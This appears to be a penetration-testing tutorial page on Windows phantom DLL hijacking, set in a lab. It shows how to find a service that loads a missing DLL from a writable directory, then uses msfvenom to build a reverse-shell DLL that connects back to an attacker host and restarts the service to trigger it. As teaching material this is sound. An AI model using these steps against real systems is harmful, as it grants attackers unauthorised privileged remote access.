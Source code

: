 # Phantom DLL Hijacking

## Detection

in this type of DLL we target a missing dll and place our own dll instead.

Use winPEAS to enumerate non-Windows services:

```text
winPEASany.exe quiet servicesinfo
```

![](../../../../../.gitbook/assets/image%20%2871%29.png)

Note that the C:\Temp directory is writable and in the PATH. Start by enumerating which of these services our user has stop and start access to:

```text
accesschk.exe /accepteula -uvqc user dllsvc
```

![](../../../../../.gitbook/assets/image%20%2881%29.png)

The “dllsvc” service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. We can confirm this manually:

```text
 sc qc dllsvc
```

![](../../../../../.gitbook/assets/image%20%2874%29.png)

![](../../../../../.gitbook/assets/image%20%2888%29.png)

in a real-world scenario we would download the executable to our own windows machine of analysis.then create a new service for the binary file that we copied and give it the path of the service binary and continue to the next steps:

create a service for the binary in our own system

```text
sc create binPath= c:\temp\dllhijackservice.exe type= own 
```

Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.

Add a new filter on the Process Name matching dllhijackservice.exe

![](../../../../../.gitbook/assets/image%20%2878%29.png)

On the main screen, deselect registry activity and network activity.

![](../../../../../.gitbook/assets/image%20%28102%29.png)

Start the service:

```text
net start dllsvc
```

![](../../../../../.gitbook/assets/image%20%2880%29.png)

​​Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the hijackme.dll file.

![](../../../../../.gitbook/assets/image%20%28103%29.png)

At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writable by our user.

## Exploitation

On Kali, generate a reverse shell DLL named hijackme.dll:

```text
msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.1 lport=5555 -f dll -o VirtualBox\ VMs/shares/hijackme.dll
```

Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit:

```text
net stop dllsvc
net start dllsvc
```

![](../../../../../.gitbook/assets/image%20%2890%29.png)





